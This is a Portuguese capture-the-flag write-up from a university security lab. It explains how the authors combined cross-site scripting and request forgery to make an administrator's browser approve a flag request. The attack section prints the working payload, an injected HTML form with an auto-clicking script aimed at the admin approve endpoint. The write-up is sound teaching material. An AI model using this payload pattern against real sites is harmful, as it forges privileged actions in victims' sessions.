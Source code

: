 # XSS + CSRF

## Pistas

De modo a realizar este CTF, foram-nos fornecidas algumas pistas:

- Na porta 5004 do servidor ctf-fsi.fe.up.pt encontra-se um servidor no qual poderemos fazer um pedido ao administrador para que este nos dê acesso à flag.
- O administrador aceitará o nosso pedido através da porta 5005 onde se encontram dois botões: um para aceitar o pedido e outro para rejeitar. Estes botões encontram-se desativados para nós.
- A nossa página dá refresh de 5 em 5 segundos e a resposta do administrador pode demorar até 2 minutos.

Para além deste contexto também nos são fornecidas duas dicas muito importantes relativas às técnicas que devemos usar para resolver este CTF:

> - `Cross-site Scripting`: consiste em injectar código em input do utilizador. Explora as páginas web como um utilizador comum e descobre que input podes controlar.
> - `Cross-site Request Forgery`: consiste em, numa página com uma dada origem, fazer pedidos a uma página numa origem diferente. Explora que diferentes páginas existem e que pedidos desejas executar.

## Servidor

Ao entrar no servidor somos recebidos com a seguinte página:

<img src="../docs/ctf6/request.png">

Esta página possui uma entrada de texto que, após submissão nos leva à seguinte página:

<img src="../docs/ctf6/request4541888198e50dfa3fa15ec02794bd1c57134e6c.png">

Esta página é a página que dá refresh de `5s em 5s` tornando-se difícil verificar o seu **HTML** ou os pedidos que faz. No entanto, e tendo em conta as pistas fornecidas, começamos a perceber que o input da primeira página provavelmente será o local onde deveremos fazer a nossa injeção de código.

A segunda página possui um botão que nos permite chegar à página do administrador:

<img src="../docs/ctf6/admin-request.png">

Esta página possui, tal como referia a pista, dois botões que se encontram desativados para nós. Verificando o **HTML** desta página conseguimos ver o pedido que cada um dos botões faz:

```html
<form
  method="POST"
  action="/request/b2a22357fbd231437b8875c71dedb9ddebb535f1/approve"
  role="form"
>
  <div class="submit">
    <input type="submit" id="giveflag" value="Give the flag" disabled="" />
  </div>
</form>
```

Verificamos rapidamente que o botão que nos interessa é o primeiro, uma vez que é este que emite um método post que aceita o nosso pedido. Se tentarmos executar este pedido manualmente aparece-nos a seguinte página:

<img src="../docs/ctf6/method-not-allowed.png">

## Ataque

Sendo o nosso objetivo que o administrador emita o método post que aceita o nosso id atual, podemos fazê-lo inserindo um form semelhante ao que se encontra na **porta 5005** na página inicial da **porta 5004**. O form que nós fizemos foi o seguinte:

```html
<form
  method="POST"
  action="http://ctf-fsi.fe.up.pt:5005/request/2d4cd430aa921d7a0ab7e0ab976d1e978a58dbe8/approve"
  role="form"
>
  <div class="submit">
    <input type="submit" id="giveflag" value="Give the flag" />
  </div>
  <script>
    document.getElementById("giveflag").click();
  </script>
</form>
```

As alterações que fizemos ao form original consistiram em remover o atributo `disabled` do botão de `submit` e adicionámos um script que faz com que do lado do administrador o botão seja clicado automaticamente.
Deste modo o administrador emitirá o pedido pretendido.

---

Por fim, apenas temos mais um problema! A página para a qual somos redirecionados após a submissão no input possui o seguinte script (já referido anteriormente):

```html
<script>
  setTimeout(function () {
    window.location.reload();
  }, 5000);
</script>
```

Este script causa um refresh da página de `5s em 5s` causando assim um refresh do id válido do nosso pedido. De maneira a contornar este problema podemos **desativar o javascript do nosso browser**:

<img src="../docs/ctf6/disable-javascript.png">

---

Posto isto, conseguimos finalmente obter a flag a partir dos seguintes passos:

1. Inserir o form na página inicial da porta 5004;
   <img src="../docs/ctf6/step1.png">

2. Após submeter o form no input, dar refresh manualmente à página uma vez que o nosso pedido foi aceite do lado do administrador;

3. A nossa flag aparece no ecrã!
   <img src="../docs/ctf6/step3.png">
